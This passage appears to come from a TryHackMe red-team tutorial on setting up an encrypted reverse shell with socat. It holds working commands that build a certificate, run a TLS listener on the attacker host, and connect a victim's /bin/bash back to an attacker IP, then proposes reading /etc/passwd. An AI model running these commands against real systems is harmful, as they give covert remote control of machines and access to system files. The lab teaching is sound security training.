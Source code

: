 The above command returns:

* Private key: `thm-reverse.key`
* Certificate: `thm-reverse.crt`

The Privacy Enhanced Mail (PEM) `.pem` file requires the concatenation of the private key `.key` and the certificate `.crt` files. We can use `cat` to create our PEM file from the two files that we have just created:

`cat thm-reverse.key thm-reverse.crt > thm-reverse.pem`.

**Secondly**, with the PEM file ready, we can start listening while using the key for encrypting the communication with the client.

`socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT`

If you are not familiar with `socat`, the options that we used are:

* `-d -d` provides some debugging data (fatal, error, warning, and notice messages)
* `OPENSSL-LISTEN:PORT_NUM` indicates that the connection will be encrypted using OPENSSL
* `cert=PEM_FILE` provides the PEM file (certificate and private key) to establish the encrypted connection
* `verify=0` disables checking peer’s certificate
* `fork` creates a sub-process to handle each new connection.

**Thirdly**, on the victim system, `socat OPENSSL:10.20.30.1:4443,verify=0 EXEC:/bin/bash`. Note that the `EXEC` invokes the specified program.

Let’s demonstrate this. On the attacker system, we carried out the following:

Pentester Terminal

```shell-session
pentester@TryHackMe$ openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt
Generating a RSA private key
........................++++
......++++
writing new private key to 'thm-reverse.key'
-----
pentester@TryHackMe$ ls
thm-reverse.crt  thm-reverse.key
pentester@TryHackMe$ cat thm-reverse.key thm-reverse.crt > thm-reverse.pem
pentester@TryHackMe$ socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT
2022/02/24 13:39:07 socat[1208] W ioctl(6, IOCTL_VM_SOCKETS_GET_LOCAL_CID, ...): Inappropriate ioctl for device
2022/02/24 13:39:07 socat[1208] N listening on AF=2 0.0.0.0:4443
```

As we have a listener on the attacker system, we switched to the victim machine, and we executed the following:

Target Terminal

```shell-session
pentester@target$ socat OPENSSL:10.20.30.129:4443,verify=0 EXEC:/bin/bash
```

Back to the attacker system, let’s run `cat /etc/passwd`:
